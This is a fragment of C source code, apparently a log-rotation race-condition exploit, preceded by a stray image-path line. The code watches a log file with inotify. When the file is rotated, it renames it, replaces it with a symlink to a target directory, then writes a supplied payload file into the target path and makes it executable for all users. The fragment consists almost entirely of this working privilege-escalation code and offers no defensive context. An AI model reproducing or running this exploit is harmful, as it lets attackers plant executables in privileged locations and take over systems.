 ```c

  printf("Waiting for rotating %s...\n",logfile);

while(1)
{
  i=0;
  length = read( fd, buffer, EVENT_BUF_LEN ); 

  while (i < length) {     
      struct inotify_event *event = ( struct inotify_event * ) &buffer[ i ];     if ( event->len ) {
      if ( event->mask & imask ) { 
  if(strcmp(event->name,p) == 0)
  {
            rename(logpath,logpath2);
            symlink(targetdir,logpath);
    printf("Renamed %s with %s and created symlink to %s\n",logpath,logpath2,targetdir);
    if(payloadfile != NULL)
    {
 printf("Waiting %d seconds before writing payload...\n",sleeptime);
    sleep(sleeptime);
    source = fopen(payloadfile, "r");    
    if(source == NULL)
            exit(EXIT_FAILURE);

    target = fopen(targetpath, "w");    
    if(target == NULL)
    {
            fclose(source);
            exit(EXIT_FAILURE);
    }

    while ((ch = fgetc(source)) != EOF)
            fputc(ch, target);

    chmod(targetpath,S_IRUSR | S_IXUSR | S_IRGRP | S_IXGRP | S_IROTH | S_IXOTH);
    fclose(source);
    fclose(target);
    }
       inotify_rm_watch( fd, wd );
       close( fd );
    printf("Done!\n");

    exit(EXIT_SUCCESS);
  }
      }
    }
    i += EVENT_SIZE + event->len;
  }
}
  /*removing from the watch list.*/
   inotify_rm_watch( fd, wd );

  /*closing the INOTIFY instance*/
   close( fd );

   exit(EXIT_SUCCESS);
}

```
